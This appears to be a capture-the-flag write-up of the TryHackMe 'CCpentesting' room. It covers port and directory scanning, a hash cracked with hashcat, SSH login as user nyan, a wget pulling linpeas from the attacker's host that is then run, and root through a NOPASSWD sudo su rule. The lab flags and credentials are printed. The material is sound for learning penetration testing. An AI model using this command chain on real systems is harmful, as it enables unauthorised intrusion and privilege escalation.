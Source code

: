 # CCpentesting 

link to the room : [https://tryhackme.com/room/ccpentesting]

`export IP=10.10.118.194`

## Recon

### Nmap

command: `sudo nmap -sC -sV -v -O -oN recon/nmap $IP`

output:

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### GoBuster
command: `docker run -v ~/Personal/tools/wordlists/:/wordlists gobuster dir -u http://$IP -w /wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,css,cgi,sh,py -t 50 > recon/gobuster`

output:

```
/secret               (Status: 301) [Size: 311] [--> http://10.10.92.59/secret/]

```
command: `docker run -v /usr/share/dirb/wordlists:/wordlists gobuster dir -u http://$IP/secret -w /wordlists/common.txt -x php,html,js,css,cgi,sh,py,txt -t 50 > recon/gobuster.v2`

output:

```
/secret.txt           (Status: 200) [Size: 46] 
```
- the file content is : `nyan:046385855FC9580393853D8E81F240B66FE9A7B8`

### Nikto
command: `docker run sullo/nikto -h $IP > recon/nikto`

output: 
```
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.41). Apache 2.2.34 is the EOL for the 2.x branch.
+ OSVDB-3092: /secret/: This might be interesting.
+ OSVDB-3233: /icons/README: Apache default file found.
```

## TASK

### 1. first flag:
- the `secret.txt` file content is : `nyan:046385855FC9580393853D8E81F240B66FE9A7B8`


#### hashcat
command: `hashcat -m 100 046385855FC9580393853D8E81F240B66FE9A7B8  ~/Personal/tools/wordlists/rockyou.txt`

output: nyan

### searchsploit
- there is a module for OpenSSH 7.2p2 which enumerate users let's try it with nyan
command: `./searchsploit -m 40136`
- we can connect to ssh via `ssh nyan@$IP` with password `nyan`

- found `user.txt` with content `supernootnoot`

### 2. second flag:

### PrivEscl

- check with linpeas: 
    - local command: `sudo python3 -m http.server`
    - remote command: `wget 10.9.2.243:8000/linpeas.sh -O /dev/shm/linpeas.sh`
    - remote command: `chmod +x linpeas.sh && ./linpeas.sh`

output:
```
OS: Linux version 4.4.0
Sudo version 1.8.16
apache2 process found (dump creds from memory as root)
sshd: process found (dump creds from memory as root)
(root) NOPASSWD: /bin/su
/etc/apache2/sites-available/default-ssl.conf:		#	 file needs this password: `xxj31ZMTZzkVA'
```

- we can execute su as admin so `sudo su` privesc to root
- `root.txt` content is `congratulations!!!!`